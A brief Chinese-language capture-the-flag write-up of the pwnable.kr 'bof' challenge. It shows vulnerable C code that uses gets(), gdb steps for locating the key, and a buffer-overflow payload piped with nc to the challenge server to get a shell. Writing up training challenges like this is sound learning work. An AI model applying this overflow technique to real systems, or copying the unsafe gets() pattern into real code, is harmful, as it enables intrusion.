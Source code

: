 ```yaml
---
layout: default
title: pwnable_bof
nav_order: 2
---
```


# pwnable bof
Source :
- [pwnable.kr](http://pwnable.kr/play.php)
---
## fuzzer 模糊字串產生方便debug
```python
import string
import random
def id_generator(size=6, chars=string.ascii_uppercase + string.digits):
    return ''.join(random.choice(chars) for _ in range(size))
 
# 執行結果
>>> id_generator()
'G5G74W'
>>> id_generator(3, "6793YUIO")
'Y3U'
```
## 程式原始碼
``` c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
---
```
-  smash me!
-  if(key == 0xcafebabe)......
-  觀察key的位址直接修改

---
## solution

### gdb
```asm
b func
```
![bof1](https://github.com/Larry-Huang/bof4/blob/master/bof1.JPG?raw=true)
```asm
##此處跳轉
cmp DWORD PTR [ebp+8],0xcafebabe
```
![bof2](https://github.com/Larry-Huang/bof4/blob/master/bof2.JPG?raw=true)
```asm
##覆蓋key的位址
##計算後要52+4
'A'*52+ \xbe\xba\xfe\xca
```
![bof3](https://github.com/Larry-Huang/bof4/blob/master/bof3.JPG?raw=true)
```asm
##修改OK
```
![bof4](https://github.com/Larry-Huang/bof4/blob/master/bof4.JPG?raw=true)
```python
#debug 
python -c "print 'A'*52+'\xbe\xba\xfe\xca'" > input.txt
#gdb
r < input.txt
#nc pwnable.kr 9000
#keep stding with python 
cat <(python -c "print 'A'*52+'\xbe\xba\xfe\xca'") - | nc pwnable.kr 9000
```




